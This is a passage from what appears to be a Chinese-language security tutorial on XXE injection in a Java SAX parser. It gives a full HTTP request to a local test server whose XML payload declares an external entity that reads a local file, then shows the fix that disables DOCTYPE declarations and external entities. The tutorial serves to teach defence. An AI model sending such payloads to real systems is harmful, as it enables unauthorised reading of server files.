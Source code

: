 {% endcode %}

{% code title="payload " %}

```
POST /parseXml HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 125

<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///C:/1.log" >]>
<foo>&xxe;</foo>
```

{% endcode %}

![image-20230308140851872](../../.gitbook/assets/image-20230308140851872.png)

**修复代码**

```java
        SAXParserFactory factory = SAXParserFactory.newInstance();
        factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
        factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
        factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```

如果攻击会提示不允许使用`DOCTYPE`

![image-20230308141547017](../../.gitbook/assets/image-20230308141547017.png)
